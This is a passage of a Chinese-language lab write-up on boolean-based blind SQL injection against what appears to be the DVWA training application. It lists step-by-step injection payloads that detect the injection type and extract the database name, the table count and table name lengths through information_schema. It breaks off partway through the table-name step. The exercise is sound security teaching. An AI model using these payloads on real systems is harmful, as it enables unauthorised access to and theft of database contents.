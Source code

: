 代码木有对参数id做任何的检查，过滤，存在明显的SQL注入漏洞，但回显结果只有``User ID exists in the database.``, `User ID is MISSING from the database.`两种了，不会返回其他数据。所以为SQL盲注。

**布尔盲注：** 

1.首先要判断注入类型：输入 1 提交回显正确

[![rElTLn.png](https://s3.ax1x.com/2020/12/11/rElTLn.png)](https://imgchr.com/i/rElTLn)

输入 1' 回显错误

[![rElOiT.png](https://s3.ax1x.com/2020/12/11/rElOiT.png)](https://imgchr.com/i/rElOiT)

输入  ``1' # `` 回显正确，说明为基于 ' 的字符型注入类型。

2.猜测数据库名称：

先猜测数据库名长度：

```
1' and length(database())=1 #  //显示错误
1' and length(database())=2 #  //显示错误
1' and length(database())=3 #  //显示错误
1' and length(database())=4 #  //显示正确
```

说明数据库名长度为4。

猜测数据库名(可以采用二分法)：

```
1' and ascii(substr(database(),1,1))>97 #  //说明数据库名第一个字母ascii值大于97
1' and ascii(substr(database(),1,1))<100 #  //说明数据库名第一个字母ascii值不小于100
1' and ascii(substr(database(),1,1))>100 #  //说明其不大于100
```

得到数据库名第一个字母ascii值为100，字母为：d

同理猜得数据库名为dvwa。

3.猜测数据库中的表名：

先猜测数据库的表的数量：

```
1' and (select count(table_name) from information_schema.tables where table_schema=database())=1 # //错误
1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 # //正确
```

得到数据库中表的数量为：2。

分别猜测表名的长度：

```
1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1 #  //错误
....
1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #  //正确
```
